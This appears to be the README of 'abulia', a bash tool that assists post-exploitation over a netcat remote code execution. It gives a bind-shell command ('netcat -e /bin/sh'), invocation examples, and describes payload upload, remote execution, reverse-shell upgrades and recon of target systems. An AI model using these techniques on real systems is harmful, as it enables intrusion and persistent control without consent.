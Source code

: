 # Abulia
abulia is a bash-script that aims to assist exploitation of netcat-based
remote code execution.

abulia requires:
- netcat to be installed on both the host and target system; the target system's netcat implementation will need to support the `-e` flag.
- read-write access on the current directory on the remote system
- the target system to be executing `netcat -e /bin/sh -vlp 4444'; this will have to be done by utilising a different exploit

## Usage
### Regular Invocation
The simplst way to invoke abulia is:
```bash
./abulia 192.0.2.0 8888
```
abulia will attempt to connect to the given host before:
- copying over `payloads/abuliarc` to `$PWD/.abulia/abuliarc` on the host system over port 8889
- open an additional netcat instance on the host system in order to connect over port 8890
- performs a reverse shell upgrade over the newly established netcat connection; this instance then sources the `abuliarc` on the host system.

### Invoke Payloads
Any additional options on the command line will be interpreted as payloads:
```bash
./abulia 192.0.2.0 8888 whoami binpack/binpack-x86_64 +binmake
```
This will:
- transfer `payloads/whoami` to `$PWD/.abulia/whoami` on the remote system
- transfer `payloads/binpack/binpack-x86_64` to `$PWD/.abulia/binpack-x86_64` on the remote system
- transfer `payloads/binmake` to `$PWD/.abulia/binmake` on the remote system **and then execute it**.
This should provide a pretty clear overview of how payloads work.
*At the moment, abulia only searches for payloads relative to the `payloads/`
directory; this has yet to be fixed.*

**Notice:** abulia uploads payloads in chronological order from left to
right; if payload B depends on payload A, then `./abulia 192.0.2.0 8888 +B A` will produce erroneous results.

abulia uses `dd` and `netcat` for file transmission, and can handle payloads of arbitrary size (including 200MiB+ wordlists).

## Todo
abulia has several issues that need to be fixed:
- abulia does not yet support other ways of attaining a reverse shell (nmap, lua, irb, etc.)- it currently relies on `python` and `pty`.
- abulia does not yet support other ways of initiating connections other than netcat; no support for `socat` or gnu/awk+network-based shelling.
- abulia produces one or two lines of garbage on the screen when achieving a reverse shell; this has yet to be fixed.
- abulia relies on some ugly hacks and `timing` to keep working; this is ugly and should ideally be fixed.
- exiting the abulia shell renders your terminal garbage, requiring you to close it.

## Payload Overview
### understand
the `understand` payload shows a fancy header displaying information such as disk usage, `uname`, SSH configuration, etc.

TODO:
- display more useful information such as:
- systemctl output;
- autodetect users and groups on the system;
- autodetect security features such as `hidepid` and non-readable `/var/log` files;

### binmake + binpack
The `binpack` files found in `payloads/binpack/` are `.tar.xz` files
containing precompiled static binaries for x86_64, x86 and ARM architecture
GNU/Linux operating systems. They were stolen from [https://github.com/andrew-d/static-binaries/](andrew-d/static-binaries).

`binmake` depends on one or more of each `binpack-$ARCH` to have been transferred to the target system.
`binmake` will create a new subdirectory `$PWD/.abulia/binpack-$ARCH` before unpacking the statically linked binaries found in the pack.
It will then modify the `$PATH` variable in `$PWD/.abulia/abuliarc`.